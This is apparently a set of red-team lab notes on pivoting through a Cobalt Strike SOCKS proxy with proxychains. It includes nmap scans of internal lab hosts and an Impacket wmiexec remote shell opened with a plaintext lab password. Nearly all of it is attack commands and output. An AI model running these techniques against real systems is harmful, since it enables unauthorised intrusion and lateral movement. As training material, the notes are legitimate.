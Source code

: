 
`proxychains` is a tool which acts as a wrapper around other applications to tunnel their traffic over a socks proxy.  First, we need to modify its configuration file to point to our Cobalt Strike socks proxy.
```bash
# :wq to save in vim
attacker@ubuntu ~> sudo vim /etc/proxychains.conf
```

At the bottom of the file, you will see a default entry for SOCKS4:  `socks4 127.0.0.1 9050`.  We need to change this to match the settings of the proxy we started in Beacon.

- SOCKS4:  `socks4 127.0.0.1 1080`

OR  

- SOCKS5:  `socks5 127.0.0.1 1080 socks_user socks_password`.

To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.  So to tunnel `nmap`, it would be:

```
attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-05 13:31 UTC
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:3389-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>>-10.10.122.10:4444-<--timeout
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:5985-<><>>-OK
Nmap scan report for 10.10.122.10
Host is up (0.061s latency).

PORT     STATE  SERVICE
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
4444/tcp closed krb524
5985/tcp open   wsman

Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
```

There are some restrictions on the type of traffic that can be tunnelled, so you must make adjustments with your tools as necessary.  ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for this to work.

You can also run tools from inside WSL on Windows.


```bash
# worked for me
#WMIexec utilizes port 135!!!!!!!!!!!!!!!!!!!!!!!!!
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password: Qwerty123
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dev\jking

C:\>hostname
web
```